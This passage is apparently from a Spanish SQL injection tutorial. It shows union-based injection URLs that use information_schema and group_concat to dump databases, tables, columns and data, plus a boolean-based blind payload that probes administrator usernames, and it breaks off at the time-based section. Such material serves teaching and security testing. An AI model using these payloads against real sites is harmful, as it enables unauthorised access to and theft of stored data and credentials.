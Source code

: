 Para sacar toda esta información usaremos la base de datos **information_schema**.

| Descripción                  | Tabla                       | Columna     |
|:----------------------------:|:---------------------------:|:-----------:|
| Nombre de las bases de datos | information_schema.schemata | schema_name |
| Nombre de las tablas         | information_schema.tables   | table_name  |
| Nombre de las columnas       | information_schema.columns  | column_name |

En muchos casos solo nos deja devolver un solo registro, por lo que se usará la función **concat()** o **group_concat()** para unir toda la información.

```sql
-- Bases de datos

http://dominio/noticias.php?id=3 and 1=0 union 
select group_concat(schema_name) from information_schema.schemata

-- Tablas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat(table_name) from information_schema.tables where table_schema = 'nombre_BBDD'

-- Columnas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat(column_name) from information_schema.columns where
table_name = 'nombre_tabla'

-- Consultas personalizadas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat('nombre_columna') from nombre_tabla
```

En caso de que no se pueda sacar el nombre de las tablas y columnas, se deberán extraer el nombre usando fuerza bruta.

### Boolean-Base Blind SQL Injection

En este caso la web no muestra ningún mensaje de error ni tampoco información.

Las inyecciones ciegas son muy lentas y pesadas de explotar. Por ese motivo se suelen automatizar.

```sql
http://dominio/noticias.php?id=1 AND 1=0 UNION
SELECT substr(user_name,1,1)=‘a’ from administrators
```

Si el primer caracter del primer nombre de usuario es una 'a' será verdadero y no mostrará error

### Time-Base Blind SQL Injection

En este caso no se muestra ningún dato por pantalla, ni siquiera los errores.
